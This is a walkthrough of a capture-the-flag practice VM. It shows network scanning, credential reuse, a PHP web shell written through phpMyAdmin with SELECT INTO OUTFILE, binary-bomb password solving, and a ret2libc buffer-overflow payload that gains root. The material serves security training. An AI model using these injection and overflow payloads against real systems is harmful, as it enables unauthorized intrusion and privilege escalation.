When we've set up our .iso file we will see this:

We need to understand what exactly we are going to "hack".
### 1. Using ifconfig to see the active interfaces, virtual boxes
   `ifconfig`: 
    
    
### 2. Using nmap to see which ports are open for the VM and what exact ip address it located at 
   `nmap 192.168.12.1-255`: 
   
      
   We see that port 80 accessible through the browser

### 3. Put this 192.168.12.128 into the browser address field and you will get a simple page: 
      
      
### 4. Now we can use DIRB - scaner of the web content which can find possibly hidden information of the page using it's library: 
   * `./dirb http://192.168.12.128 wordlist/common.txt -w` 
       output gives us a possibility to see the "forum" folder and some other which are not really relevant: 
        
       Though http://192.168.12.128/forum not found in browser

   * lets try ssl version of the site 
       `./dirb http://192.168.12.128 wordlist/common.txt -w` 
       and we get much more info now, but there are few main folders: 
        
       https://192.168.12.128/forum 
       https://192.168.12.128/webmail 
       https://192.168.12.128/phpmyadmin 

### 5. First checking out the "forum" folder, proceeding in the browser to https://192.168.12.128/forum  
   * We see few topics, checking first one with login problem, looks like the log outpit of log in attempts, one line contains some symbols that are looking like a password:    
    
   assuming that it was log in try we can think that it's user password, probably the one who created the topic 
   
   * Log in functionality is present on a forum, as well as users tab: 
    
   there are not so much users, so we going to try to login with credentials of them and this password that we have 
   the try to login with lmezard and password that we've found was successfull 
    
   Keep in mind that we have access to the "webmail" page and we see the email of the user
       
### 6. Going to check the webmail page
   * trying if user email that we found and password that we used to login are matching, seems it works 
    
   * inbox contains 2 emails, one is very interesting, but another one contains root DB access, which seems more relevant to us necause we remember that we have "phpmyadmin" page on a site 
    
    

### 7. phpmyadmin investigation
   * lets try to login with credentials that we've got 
   * using suggestions from this topic http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2 we are going to inject php file that allows us to run a shell commands from browser 
   * During several attemtps of the injection files into different known folders that exist on the site, we were finally able to make a needed injection into the "temaplates_c" folder 
    `SELECT "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/cmd.php";` 
     
### 8. thanks to the tutorial we can now use shell commands of the server from the browser 
   * which gives us the possibility to find credentials to access the server found in password file in LOOKATME folder 
    
   * looks like an ssh or ftp access  
    
   
### 9. trying to ge access
   * ssh (unsucessfull) 
    
   * ftp (sucessfull) 
   * we can see two files, get them 
    
   * readme contains some hint for us 
    
   * fun is archive, after decompression it contains a lot of `.pcap` files 
    
    
   * using cat command for fun file we can see simple c programm that outputs 12 letters and says it's the password, there are also function calls get_me#() from 1 to 12 each returns letter 
    
   * we found out that archive 8 files return the values from the password 
    
     lets sort them according to numbers inside and we will get the order: 
      
       ***APM1E** I 
       **ZPY1Q** h 
       **ECOW1** e 
       **7DT5Q** a 
       **T7VV0** r 
       **J5LKW** t 
       **T44J5** p 
       **BJPCP** wnage *
     now we see that the password "Iheartpwnage" looks like case sensetive
   * In fun archive we also saw hint about SHA256, lets encode our password to SHA256    `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`
   * and try to ssh on the server with `laurie@192.168.12.128` and password
### 10. We are successfully ssh with laurie user
* we see the README file that gives us a hint how to get password for the ssh access with user "thor"
* disasemple bomb file and we see 6 functions
  * **Phase_1** pushes value to the stack 0x80497c0, which is "Public speaking is very easy." Also hint says that password has no spaces and case sensetive, modifing string and getting first part of out password: `Publicspeakingisveryeasy.`
  * **Phase_2** function 'read_six_numbers' and the string '%d %d %d %d %d %d' at the address 0x08049b1b. We assume that first number is 1, the others are multiples by the last number in the sequense so we have to do it 6 times according to the string. 1*1 2*1 2*3 6*4 24*5 120*6 so the next part of our password is: `12624120720`
  * **Phase_3** contains the string "%d %c %d" before the call of sscanf function, hint has given us that the character passed to the function should be `b`, so it gives us the solution of "1 b 214", next part of the password is "1b214"
  * **Phase_4** contains the string "%d" before the call of sscanf function, after the call eax must be equal to 0x37 which is 55, so the number passed to the function we get by inversing the assembly code "9"
  * **Phase_5** contains the tring "giants" at the address 0x804980b. we also see string isrveawhobpnutfg\260\001 at the address 0x804b220, and a programm gives us a hint to exchange the letters from giants to once from that string and we get `opekmq`
  * **Phase_6** the programm read_six_numbers and a hint gives us number 4, we also see 6 nodes {253} -> {725} -> {301} -> {997} -> {212} -> {432}, 4-th of the is the biggest, lets assume that we need to order them in descending order then our password part will be: `426315` though according to the forum we must swap 3 and 1 in last part to get the access   
The password in the end: `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

### 11. ssh thor@192.168.12.128 
    We see the README and turtle files
    README suggests us to login with user zaz
    the turtle file is a draw map which is python module
    it gives us the word SLASH
### 12. ssh zaz@192.168.12.128
    trying password SLASH, does not work
    sha256 encryption of SLASH does not work eather
    md5 does work
### 13. we find a file exploit_me and it has a root rights
    If we open exploit_me into gdb we notice that we can use a buffer overflow attack and overwrite the EIP register due to the use of an unprotected strcpy.
    Playing around with the command line we can make the program crash at 140 bytes.
    ./exploit_me $(python -c "print('A' * 140)")
### 14. we need to exploit
$ ./exploit_me $(python -c "print('A' * 140 + '\xb7\xe6\xb0\x60'[::-1] + 'AAAA' + '\xb7\xf8\xcc\x58'[::-1])")
id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz) 
    gives us root permissions using a well know security risk on strcpy which provides us with the possiblity to user ret2libc atack, very well known attack
    
